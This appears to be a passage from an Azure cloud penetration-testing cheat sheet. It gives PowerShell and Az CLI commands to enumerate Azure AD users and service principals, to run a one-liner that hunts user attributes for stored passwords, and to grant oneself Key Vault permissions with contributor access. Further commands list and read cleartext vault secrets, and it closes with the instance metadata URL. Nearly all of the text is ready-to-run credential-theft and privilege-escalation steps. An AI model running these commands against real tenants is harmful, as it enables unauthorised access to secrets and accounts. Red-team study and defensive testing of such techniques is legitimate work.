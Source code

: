 List all user attributes

```powershell
Get-MSolUser –All | fl
```

List Service Principals

```powershell
Get-MsolServicePrincipal
```

One-liner to search all Azure AD user attributes for passwords

```powershell
$users = Get-MsolUser -All; foreach($user in $users){$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; foreach($prop in $props){if($user.$prop -like "*password*"){Write-Output ("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop)}}} 
```

### Az CLI Tool

#### Authentication

```bash
az login
```

#### Dump Azure Key Vaults

List out any key vault resources the current account can view 

```bash
az keyvault list –query '[].name' --output tsv 
```

With contributor level access you can give yourself the right permissions to obtain secrets. 

```bash
az keyvault set-policy --name <KeyVaultname> --upn <YourContributorUsername> --secret-permissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list 
```

Get URI for Key Vault 

```bash
az keyvault secret list --vault-name <KeyVaultName> --query '[].id' --output tsv 
```

Get cleartext secret from keyvault 

```bash
az keyvault secret show --id <URI from last command> | ConvertFrom-Json
```

### Metadata Service URL

```bash
http://169.254.169.254/metadata
```
